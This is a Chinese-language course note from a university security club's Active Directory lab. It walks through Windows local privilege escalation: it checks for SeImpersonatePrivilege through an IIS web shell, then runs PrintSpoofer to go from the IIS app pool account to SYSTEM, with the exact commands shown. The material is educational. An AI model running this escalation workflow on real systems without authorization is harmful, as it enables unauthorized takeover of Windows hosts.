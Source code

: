 ```yaml
---
title: NTUSTISC - AD Note - Lab(Hijack Token)
tags: [NTUSTISC, AD, information security]

category: "Security/Course/NTUST ISC/AD/2. 提升權限"
---
```


# NTUSTISC - AD Note - Lab(Hijack Token)
<!-- more -->
[TOC]

Lecture Video: [2022/05/04 AD 安全1](https://youtu.be/Cv2gNQkDM8Q?si=M0LV3dBCMCOy58LN&t=3600)

## Background
* 提權方法
    * 利用弱點
    * Hijack Token
        * Tools: [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
        * Support: Windows 8.1/Server 2012 R2/10/Server 2019
        * How to use: `$ PrintSpoofer.exe -c "command"`
    * Guess Password
    * 管理服務
    * 錯誤配置

## Lab Time - 本地提權

### ==Hijack Token(Network Service)==
這邊講師示範的是，如何利用IIS的特殊權限，達成提權。
先解釋一下，如果要使用PrintSpoofer之類的工具有個特殊的條件，就是需要有特殊權限，也就是
:::info
```bash!
$ whoami /priv
```
需要有下列其一權限:
SeImpersonatePrivilege => CreateProcessWithToken()
SeAddignPrimaryToekn => CreateProcessAsUser()
:::
1. whoami /priv
我們先看一下正常使用者的特殊權限有哪些
    ```bash!
    $ whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    特殊權限名稱                  描述               狀況
    ============================= ================== ======
    SeShutdownPrivilege           關閉系統           已停用
    SeChangeNotifyPrivilege       略過周遊檢查       已啟用
    SeUndockPrivilege             從擴充座移除電腦   已停用
    SeIncreaseWorkingSetPrivilege 增加處理程序工作組 已停用
    SeTimeZonePrivilege           變更時區           已停用
    ```
    可以看到上述的權限都沒有在這裏面，也就是說正常的使用者是不會有這兩個權限的，那誰會有這兩個權限呢?需要==impersonation(也就是講師說的切換身分)的人==，詳細的腳本可以看這邊[^iis-windows-impersonation]但今天不會用到，總之IIS就是一個需要做身分切換的角色，所以講師已經在Win10的電腦中設定好IIS，也起用了web shell的功能，我們就可以試看看，在browser中`http://127.0.0.1/cmd.aspx`，他可以直接用IIS的權限執行程式
    ![](https://hackmd.io/_uploads/r1N1LMM03.png)

    ![](https://hackmd.io/_uploads/HySuBGMC2.png)
    從結果來看，他的確具有==SeImpersonatePrivilege==的權限而且已經啟用，那我們就可以直接用PrintSpoofer.exe執行其他指令
2. Use PrintSpoofer.exe
![](https://hackmd.io/_uploads/rkqPUMGA2.png)
從結果來看，我們的確已經提權了，再來可以用講師的指令測試一下權限
`c:\tools\PrintSpoofer64.exe -c "c:\windows\system32\cmd.exe /c whoami > c:\inetpub\wwwroot\tmp.txt"`
這一串指令是利用PrintSpoofer執行cmd.exe再執行whoami的command並寫道tmp.txt中
![](https://hackmd.io/_uploads/rk0pwGzRh.png)
目前權限已經從`iis apppool\defaultapppool`轉換成`nt authority\system`也就是前面說的==本地端真正的最高權限使用者==

## Reference
[^iis-windows-impersonation]:[ [2020鐵人賽] Day29 - 切換身分Impersonation ](https://ithelp.ithome.com.tw/articles/10252658)